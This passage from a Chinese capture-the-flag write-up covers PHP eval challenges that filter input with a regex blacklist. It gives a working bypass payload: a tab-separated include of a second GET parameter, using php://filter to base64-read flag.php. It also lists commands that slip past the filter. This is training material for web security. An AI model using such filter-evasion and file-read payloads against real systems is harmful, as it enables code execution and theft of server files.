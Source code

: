 放上源码

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

需要一个名称为“c”的GET请求，通过正则匹配的判断后即可执行命令

目前可用的执行函数有：passthru()

目前可用的读取函数有：tac, more, less, tail

空格和分号均被过滤了。

尝试逃逸加文件包含

?c=include%09$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

成功，拿到flag。



### web35

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```